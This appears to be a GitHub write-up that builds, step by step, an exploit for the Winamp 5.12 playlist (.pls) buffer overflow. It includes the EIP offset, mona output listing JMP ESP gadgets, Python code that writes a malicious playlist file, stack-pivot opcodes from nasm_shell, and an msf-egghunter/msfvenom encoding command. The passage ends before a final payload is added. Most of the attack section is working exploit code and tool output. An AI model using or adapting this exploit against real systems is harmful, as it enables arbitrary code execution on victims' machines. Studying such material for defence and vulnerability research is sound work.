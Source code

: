 # Winamp 5.12 Playlist Buffer Overflow
References: 
- https://www.exploit-db.com/exploits/1458
- https://packetstormsecurity.com/files/152706/Winamp-5.12-Playlist-.pls-Buffer-Overflow.html
- https://www.cvedetails.com/cve/CVE-2006-0476/ 
- https://resources.infosecinstitute.com/topic/buffer-overflow-vulnserver/#gref
- https://armoredcode.com/blog/a-closer-look-to-msf-egghunter/
  
*Buffer overflow in Nullsoft Winamp 5.12 allows remote attackers to execute arbitrary code via a playlist (pls) file with a long file name (File1 field).*

## Exploitation

### 1. Control EIP

PLS playlist structure as is follows:
```
[playlist]
File1=\Program Files\Winamp\demo.mp3 
Title1=DJ Mike Llama - Llama Whippin' Intro
Length1=5
NumberOfEntries=1
Version=2

```
The filename has to be long enough to overwrite the address of EIP. By sending increasingly longer inputs in as the filename, the length needed to control EIP is 1022, with the next 4 bytes on top of that being executed as the EIP address. 

![UI Screenshot](img/1.jpg)  

### 2. Find JMP ESP instruction
On the crash, ESP points to buffer space directly after EIP. Find a JMP ESP instruction:
```
0BADF00D   [+] Command used:
0BADF00D   !mona jmp -r esp

           ---------- Mona command started on 2020-12-22 16:29:07 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   [+] Querying 8 modules
0BADF00D       - Querying module jnetlib.w5s
0BADF00D       - Querying module in_wm.dll
0BADF00D       - Querying module in_nsv.dll
0BADF00D       - Querying module winamp.exe
0BADF00D       - Querying module gen_ff.dll
0BADF00D       - Querying module gen_ml.dll
0BADF00D       - Querying module aacPlusDecoder.w5s
0BADF00D       - Querying module in_mp3.dll
0BADF00D       - Search complete, processing results
0BADF00D   [+] Preparing output file 'jmp.txt'
0BADF00D       - (Re)setting logfile jmp.txt
0BADF00D   [+] Writing results to jmp.txt
0BADF00D       - Number of pointers of type 'jmp esp' : 2
0BADF00D       - Number of pointers of type 'call esp' : 2
0BADF00D       - Number of pointers of type 'push esp # ret ' : 20
0BADF00D       - Number of pointers of type 'push esp # ret 0x04' : 1
0BADF00D   [+] Results :
1A113749     0x1a113749 : jmp esp | ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1E8C15     0x1a1e8c15 : jmp esp |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1073614F     0x1073614f : call esp | ascii {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0202D961     0x0202d961 : call esp |  {PAGE_EXECUTE_READ} [in_mp3.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_mp3.dll)
66601B1D     0x66601b1d : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660480C     0x6660480c : push esp # ret  | ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
66604E65     0x66604e65 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660505E     0x6660505e : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
666068A3     0x666068a3 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660699A     0x6660699a : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
6660E2D1     0x6660e2d1 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_wm.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_wm.dll)
1501BAF6     0x1501baf6 : push esp # ret  |  {PAGE_EXECUTE_READ} [in_nsv.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\in_nsv.dll)
1A10539F     0x1a10539f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A17B88F     0x1a17b88f : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A18C3D2     0x1a18c3d2 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1CE776     0x1a1ce776 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1A1F3067     0x1a1f3067 : push esp # ret  | asciiprint,ascii {PAGE_EXECUTE_READ} [gen_ff.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ff.dll)
1072D056     0x1072d056 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0A4     0x1072d0a4 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
1072D0B7     0x1072d0b7 : push esp # ret  |  {PAGE_EXECUTE_READ} [gen_ml.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Winamp\Plugins\gen_ml.dll)
0BADF00D   ... Please wait while I'm processing all remaining results and writing everything to file...
0BADF00D   [+] Done. Only the first 20 pointers are shown here. For more pointers, open jmp.txt...
0BADF00D       Found a total of 25 pointers
0BADF00D
0BADF00D   [+] This mona.py action took 0:07:22.697000
```
Of these, I can use the instruction at address: `0x1a1e8c15`.  
Exploit is now:
`[PADDING][JMP ESP][INTERRUPT]`
The interrupts are there to stop the program before it crashes again. Python exploit currently looks like:
```python
#!/usr/bin/env python

from struct import pack

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * 1022 + pack('<I', 0x1a1e8c15) + b'\xCC' * 4
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'

with open('exp.pls', 'wb') as plsFile:
	plsFile.write(plsPart1 + plsFile1 + plsPart2)

```

![UI Screenshot](img/2.jpg)  

When running the resulting playlist file, the interrupts get hit, so we are now jumping to ESP and executing there, but this has only a small amount of space, only 11 bytes to the next null byte, so any useful shellcode payload is not going to fit. So from here another jump needs to happen back into the original filename buffer. This can be done first by decreasing the ESP pointer back onto the buffer and then jumping again.
```bash
┌──(kali㉿kali)-[/usr/share/metasploit-framework/tools/exploit]
└─$ ./nasm_shell.rb 
nasm > sub esp, 58
00000000  83EC3A            sub esp,byte +0x3a
nasm > jmp esp
00000000  FFE4              jmp esp
```
With the space I have, I can subtract 58 from ESP twice and then jump there. Modifications to exploit:
```python
subesp = b'\x83\xEC\x3A'
jmpesp = b'\xFF\xE4'

plsPart1 = b'[playlist]\r\nFile1=\\\\'
plsFile1 = b'A' * (906+4) + b'\xCC' * (116-4) + pack('<I', 0x1a1e8c15) + (subesp * 2) + jmpesp
plsPart2 = b'\r\nTitle1=LLamma Whippin\r\nLength1=5\r\nNumberOfEntries=1\r\nVersion=2\r\n'
```
I put some interrupts where the execution should jump to. Another interrupt back in the file buffer:

![UI Screenshot](img/3.jpg)  

Still not enough stack space for a payload, so from here use egghunter to jump again to a bigger area. Firstly generate some egghunter shellcode, needs to be passed to msfvenom to encode out badchars.
```bash
┌──(kali㉿kali)-[~]
└─$ msf-egghunter --arch x86 --platform windows -e JACK -f raw | msfvenom -p - --arch x86 --platform windows -e x86/alpha_mixed -f python --var-name egg > egghunt_encoded.py
Attempting to read payload from STDIN...

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 126 (iteration=0)
x86/alpha_mixed chosen with final size 126
Payload size: 126 bytes
Final size of python file: 625 bytes
```

